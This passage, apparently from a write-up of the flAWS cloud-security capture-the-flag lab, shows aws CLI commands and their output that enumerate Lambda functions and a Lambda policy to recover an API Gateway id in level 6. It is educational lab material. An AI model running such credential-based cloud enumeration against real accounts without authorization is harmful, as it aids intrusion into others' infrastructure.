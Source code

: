         "VersionId": "v4",
        "IsDefaultVersion": true,
        "CreateDate": "2017-02-20T01:48:17Z"
    }
}
{% endhighlight %}

This tells us that,we have ability to GET `arn:aws:apigateway:us-west-2::/restapis/*` some lamba function thingy.
Reading Lambda functions we have access to,

{% highlight bash %}
┌──(fumenoid㉿kali)-[~/Desktop/Fumenoid/Cloud]
└─$ aws --profile flaws3 lambda list-functions --region us-west-2                                                              
{
    "Functions": [
        {
            "FunctionName": "Level6",
            "FunctionArn": "arn:aws:lambda:us-west-2:975426262029:function:Level6",
            "Runtime": "python2.7",
            "Role": "arn:aws:iam::975426262029:role/service-role/Level6",
            "Handler": "lambda_function.lambda_handler",
            "CodeSize": 282,
            "Description": "A starter AWS Lambda function.",
            "Timeout": 3,
            "MemorySize": 128,
            "LastModified": "2017-02-27T00:24:36.054+0000",
            "CodeSha256": "2iEjBytFbH91PXEMO5R/B9DqOgZ7OG/lqoBNZh5JyFw=",
            "Version": "$LATEST",
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "98033dfd-defa-41a8-b820-1f20add9c77b",
            "PackageType": "Zip",
            "Architectures": [
                "x86_64"
            ]
        }
    ]
}
{% endhighlight %}

We get the `Rest-api` id with 

{% highlight bash %}
┌──(fumenoid㉿kali)-[~/Desktop/Fumenoid/Cloud]
└─$ aws --profile flaws3 --region us-west-2 lambda get-policy --function-name Level6                                                                                                      2 ⨯
{
    "Policy": "{\"Version\":\"2012-10-17\",\"Id\":\"default\",\"Statement\":[{\"Sid\":\"904610a93f593b76ad66ed6ed82c0a8b\",\"Effect\":\"Allow\",\"Principal\":{\"Service\":\"apigateway.amazonaws.com\"},\"Action\":\"lambda:InvokeFunction\",\"Resource\":\"arn:aws:lambda:us-west-2:975426262029:function:Level6\",\"Condition\":{\"ArnLike\":{\"AWS:SourceArn\":\"arn:aws:execute-api:us-west-2:975426262029:s33ppypa75/*/GET/level6\"}}}]}",
    "RevisionId": "98033dfd-defa-41a8-b820-1f20add9c77b"
}
{% endhighlight %}
